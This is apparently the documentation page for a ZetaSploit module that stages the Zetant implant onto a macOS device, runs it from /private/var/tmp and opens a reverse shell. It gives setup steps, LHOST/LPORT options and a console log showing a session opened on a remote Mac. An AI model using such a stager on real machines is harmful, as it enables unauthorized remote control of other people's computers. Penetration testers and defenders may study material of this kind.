 # `exploit/macos/stager/zetant_reverse_tcp`

## Vulnerable Application

This module uses [Zetant Implant](https://github.com/enty8080/zetant) to send it to device and execute from `/private/var/tmp` to provide reverse shell.

## Verification Steps

1. Start ZetaSploit
2. Do `use exploit/macos/stager/zetant_reverse_tcp`
3. Do: `set LHOST` to your local host.
4. Do: `set LPORT' to your local port.
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description        |
|-----------|-----------------------|----------|--------------------|
| `LHOST`   | `self.helper.getip()` | yes      | Local host.        |
| `LPORT`   | 4444                  | yes      | Local port.        |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

## Scenarios

```
(zsf: exploit: macos/stager/zetant_reverse_tcp)> run
[*] Starting listener on port 4444...
[*] Binding to 192.168.2.108:4444...
[+] Listener started on port 4444!
[*] Connecting to 192.168.2.108...                
[*] Sending first stage...                        
[*] Executing first stage...                      
[*] Sending second stage...                       
[*] Executing second stage...                     
[*] Establishing connection...                    
[+] Session 0 opened!
(zsf: post: macos/zetant/trolling/say)> sessions
 
Sessions
========
 
    ID    Host             Username    Hostname     
    --    ----             --------    --------     
    0     192.168.2.110    enty8080    Ivans-Air    

(zsf: post: macos/zetant/trolling/say)>
```

